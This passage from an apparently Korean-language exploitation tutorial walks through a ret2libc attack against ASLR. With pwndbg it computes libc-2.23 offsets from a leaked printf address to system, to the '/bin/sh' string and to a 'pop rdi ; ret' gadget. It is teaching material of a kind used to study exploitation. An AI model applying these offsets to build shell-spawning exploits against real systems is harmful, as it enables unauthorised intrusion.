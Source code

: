 그렇기 때문에 위의 방정식에서 `X` 를 알 수 있다면 유출된 printf 함수의 주소값에 `X` 를 더하면 ASLR 이 주소값을 변경시키든지 말든지 항상 `system` 함수의 주소값을 구할 수 있다. `X` 는 직관적으로 다음과 같이 구할 수 있을 것이다.

`X = (system 함수의 주소값) - (printf 의 주소값)` 

그러면 `gdb` 를 통해서 `X` 를 구해보자. 

```shell
pwndbg> p system
$6 = {<text variable, no debug info>} 0x7f836fdd2390 <__libc_system>
pwndbg> p printf
$7 = {<text variable, no debug info>} 0x7f836fde2800 <__printf>
pwndbg> p/d 0x7f836fdd2390 - 0x7f836fde2800
$8 = -66672
```

간단한 연산으로 `X` 가 -66672 라는 것을 알 수 있었다. 

#### printf 와 /bin/sh 와의 거리 

`(printf 의 주소값) + Y = (/bin/sh 의 주소값)`

마찬가지로 위와 같은 방정식에서 `Y` 의 값을 구할 수 있다면 유출된 print` 함수의 주소값에 `Y` 를 더하면 `/bin/sh` 구할 수 있다. 

`Y = (/bin/sh 의 주소값) - (printf 의 주소값)`

역시 마찬가지로 `(printf 의 주소값)` 을 이항시켜서 `Y` 를 구할 수 있다. 

```shell
pwndbg> search /bin/sh
libc-2.23.so    0x7f836ff19d57 0x68732f6e69622f /* '/bin/sh' */
warning: Unable to access 16000 bytes of target memory at 0x7f836ff54d06, halting search.
warning: Unable to access 16006 bytes of target memory at 0x7f837015a000, halting search.
pwndbg> p printf
$9 = {<text variable, no debug info>} 0x7f836fde2800 <__printf>
pwndbg> p/d 0x7f836ff19d57 - 0x7f836fde2800
$10 = 1275223
```

gdb 를 통한 간단한 연산으로 `Y` 가 1275223 라는 것을 알 수 있다. 

#### printf 와 "pop rdi ; ret" 와의 거리 

`pop rdi ; ret` 의 가젯이 `libc` 의 어떤 오프셋에 있는지 계산할 수 있다. 그러면 그 오프셋과 `libc` 의 시작 주소값을 더한 후 `printf` 함수와의 거리를 구하면 `printf` 함수로부터 `pop rdi ; ret` 가젯이 어느정도 떨어져있는지 확실하게 알 수 있게 된다.

마찬가지로 printf 에 `Z` 를 더하면 `pop rdi ; ret` 주소값이 계산되는 `Z` 를 구해보자. 

`(printf 의 주소값) + Z = ("pop rdi ; ret" 가젯의 주소값)`

그러면 `Z` 는 다음과 같다. 

`Z = ("pop rdi ; ret" 가젯의 주소값) - (printf 의 주소값)`

##### "pop rdi ; ret" 의 주소값 

그런데 `pop rdi ; ret` 의 주소값은 이렇게 구할 수 있다. 

`("pop rdi ; ret" 가젯의 주소값) = (libc 의 베이스 주소값) + ("pop rdi ; ret" 의 오프셋) `
